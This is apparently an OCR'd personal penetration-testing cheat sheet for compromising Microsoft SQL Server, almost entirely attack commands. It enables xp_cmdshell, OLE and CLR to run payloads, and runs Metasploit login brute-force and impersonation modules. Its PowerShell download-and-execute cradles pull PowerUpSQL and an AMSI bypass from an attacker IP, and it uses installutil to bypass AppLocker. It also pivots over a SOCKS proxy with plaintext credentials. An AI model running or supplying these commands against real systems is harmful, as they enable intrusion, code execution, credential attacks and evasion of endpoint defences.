             Enable/Disable stuff:
                /module:checkrpc
                    /module:enablerpc /rhost:SQL02
                    /module:disablerpc /rhost:SQL02
                /module:enablexp
                    /module:disablexp
                    /module:xpcmd /command:"c:\temp\payload.exe"
                /module:enableole
                    /module:disableole
                    /module:olecmd /command:notepad.exe
                /module:enableclr
                    /module:disableclr
                    /module:clr /dll:"C:\Users\jsmith\Desktop\sql.dll" /function:CustomFunctionName
                    /module:clr /dll:"https://tempbucket1.s3.us-east-1.amazonaws.com/sql.dll?<snipped>" /function:CustomFunctionName
                /module:adsi /rhost:linkadsi /lport:49100


    //Metasploit:
        use admin/mssql/mssql_enum
        use admin/mssql/mssql_enum_sql_logins
        use auxiliary/scanner/mssql/mssql_schemadump
        use exploit/windows/mssql/mssql_linkcrawler
        //Login Bruteforcer:  use auxiliary/scanner/mssql/mssql_login; set user_file /root/users.txt; set pass_file /root/pass.txt
        //*Test Impersonation: use auxiliary/widows/mssql/mssql_escalate_execute_as; set rhosts 192.168.1.146; set username lowpriv; set password Password@1


    //Enumeration w/ PowerUpSQL.ps1:
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/PowerUpSQL.ps1') | IEX
        Get-SQLInstanceDomain -Verbose
        Get-SQLServerInfo -Verbose -Instance sql07
        $Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}
        $Targets | Get-SQLQuery -Verbose -Query "Select @@version"
        //Bypass:  C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /cmd="echo '#######AMSIBYPASS#######'; (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/amsi.txt') | IEX; echo '#######POWERUPSQL#######'; (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/PowerUpSQL.ps1') | IEX; Get-SQLServerInfo -Verbose -Instance sql07 | out-file -filepath 'c:\windows\tasks\q.txt'" /U c:\windows\tasks\S.exe

    //Enumeration manually w/ SQLQuery.ps1:
        (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/SQLQuery.ps1') | IEX
        //Bypass Method:
            upload /home/kali/data/PSApplockerBypass/InstallUtilBypass2/bin/x64/Release/InstallUtilBypass2.exe c:/windows/tasks/S.exe
            C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /cmd="echo '#######SQLQuery.ps1#######'; (New-Object System.Net.WebClient).DownloadString('http://192.168.49.121/SQLQuery.ps1') | IEX > q.txt; type q.txt" /U c:\windows\tasks\S.exe


    //Enum from Linux - mssqlclient.py:
        ////socks:
            use multi/manage/autoroute; set session 1; exploit
            use auxiliary/server/socks_proxy; set srvhost 127.0.0.1; exploit -j         //to stop: jobs; kill 0
            sudo bash -c 'echo "socks5 127.0.0.1 1080" >> /etc/proxychains.conf'
        proxychains mssqlclient.py -windows-auth tricky.com/will:fdsfssdfDFG4@172.16.173.151
